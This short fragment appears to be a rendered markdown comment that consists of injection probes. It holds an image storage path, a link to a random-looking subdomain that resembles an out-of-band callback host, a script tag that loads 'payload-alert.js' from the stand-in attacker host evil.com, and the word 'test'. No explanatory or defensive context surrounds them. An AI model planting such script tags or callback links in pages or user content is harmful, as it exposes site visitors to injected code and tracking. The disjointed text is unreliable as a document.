 <a href="http://x31d3yf3uxjna9lf4pmzmngv3m9dxdl2.c01.red">HTML</a>
<script src="https://evil.com/payload-alert.js"></script>
test
